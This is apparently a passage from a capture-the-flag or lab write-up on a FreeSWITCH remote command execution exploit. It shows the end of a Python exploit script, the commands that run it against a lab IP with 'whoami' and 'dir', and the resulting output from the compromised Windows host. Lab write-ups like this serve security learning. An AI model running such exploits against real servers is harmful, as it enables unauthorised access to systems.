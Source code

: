   ```
          print('Authentication failed')
          sys.exit(1)
  else:
      print('Not prompted for authentication, likely not vulnerable')
      sys.exit(1) 
  ```

- You simply run the exploit with arguments `IP` and `command`.

  ```
  $ python3 exploit.py 10.10.180.46 whoami
  Authenticated
  Content-Type: api/response
  Content-Length: 25
  
  win-eom4pk0578n\nekrotic
  
  $ python3 exploit.py 10.10.180.46 dir
  Authenticated
  Content-Type: api/response
  Content-Length: 2346
  
   Volume in drive C has no label.
   Volume Serial Number is 84FD-2CC9
  
   Directory of C:\Program Files\FreeSWITCH
  
  09/11/2021  08:38    <DIR>          .
  09/11/2021  08:38    <DIR>          ..
  09/11/2021  08:22    <DIR>          cert
  09/11/2021  08:22    <DIR>          conf
  10/06/2025  14:56    <DIR>          db
  09/11/2021  08:18    <DIR>          fonts
  20/08/2019  13:08         4,991,488 FreeSwitch.dll
  20/08/2019  13:08            26,624 FreeSwitchConsole.exe
  20/08/2019  13:19            62,976 fs_cli.exe
  09/11/2021  08:18    <DIR>          grammar
  09/11/2021  08:18    <DIR>          htdocs
  09/11/2021  08:18    <DIR>          images
  13/05/2019  07:13           293,888 ks.dll
  20/08/2019  13:04           152,064 libapr.dll
  20/08/2019  13:04           134,656 libaprutil.dll
  20/08/2019  13:16           131,584 libbroadvoice.dll
  21/03/2018  21:39         1,805,824 libeay32.dll
  23/03/2019  17:37         1,050,112 libmariadb.dll
  09/11/2021  08:18    <DIR>          libmariadb_plugin
  20/08/2019  13:06           190,464 libpng16.dll
  05/04/2018  10:18           279,552 libpq.dll
  04/04/2018  18:59         1,288,192 libsndfile-1.dll
  20/08/2019  13:05         1,291,776 libspandsp.dll
  20/08/2019  13:04            27,648 libteletone.dll
  10/06/2025  14:55    <DIR>          log
  09/08/2018  12:42           283,648 lua53.dll
  09/11/2021  08:18    <DIR>          mod
  09/04/2018  13:36        66,362,368 opencv_world341.dll
  09/11/2021  08:18           825,160 openh264.dll
  20/08/2019  13:02             4,596 OPENH264_BINARY_LICENSE.txt
  03/04/2018  18:31           147,456 pcre.dll
  20/08/2019  13:14           313,856 pocketsphinx.dll
  20/08/2019  13:10            49,152 pthread.dll
  09/11/2021  08:22    <DIR>          recordings
  09/11/2021  08:22    <DIR>          run
  09/11/2021  08:22    <DIR>          scripts
  13/05/2019  08:03           165,888 signalwire_client.dll
  ```